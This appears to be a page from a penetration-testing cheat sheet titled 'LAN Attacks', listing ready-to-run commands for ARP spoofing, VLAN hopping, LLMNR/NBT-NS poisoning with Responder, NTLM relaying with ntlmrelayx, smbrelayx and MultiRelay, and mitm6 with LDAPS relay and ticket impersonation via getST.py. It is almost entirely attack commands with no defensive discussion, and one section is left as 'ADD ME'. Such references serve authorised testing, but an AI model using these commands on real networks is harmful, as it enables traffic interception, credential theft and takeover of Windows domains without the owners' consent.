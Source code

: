 ```yaml
---
layout: default
title: LAN Attacks
parent: Attacks
nav_order: 1
---
```


# LAN Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## ARP spoofing
Bettercap2
```
arp.spoof on
```
Arpspoof
```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```



## 802.1Q VLAN

### Dynamic Trunking
```
yersinia -I
# In interactive mode you will need to select a interface first
# Then, you can select the protocol to attack using letter "g"
# Finally, you can select the attack using letter "x"
```

### Attacking specific VLANs
```
# Preparation
modprobe 8021q
vconfig add eth1 250
dhclient eth1.250
ifconfig eth1.250

# Scan
arp-scan -I eth1.250 10.10.1.0/24
```
### Double Tagging

ADD ME


## Relay Attacks - LLMNR, NBT-NS, and mDNS - 

### Responder
Remember to start with 
```
SMB = Off     # Turn this off
HTTP = Off    # Turn this off
```
```
responder -I eth0 -rv
```
```
responder -I eth0 -r -d -w
```
### Relay
#### ntlmrelayx
```
cme smb <CIDR> --gen-relay-list targets.txt
```
```
ntlmrelayx.py -tf targets.txt
```
#### smbrelayx
```
smbrelayx.py -h <target_IP> -c "ipconfig"
```
#### MultiRelay
```
python MultiRelay.py -t <IP target> -u ALL
```

### mitm6
```
mitm6 -d example.local --ignore-nofqdn
```
Relay
```
ntlmrelayx.py -6 -t ldaps://example.local --delegate-access --no-smb-server -wh test-wpad
```
Exploit
```
getST.py -spn cifs/example.local example.local/ADDED_PC\$ -impersonate TARGET_USER
```


### InveighZero
Works from Windows systems:
* [https://github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)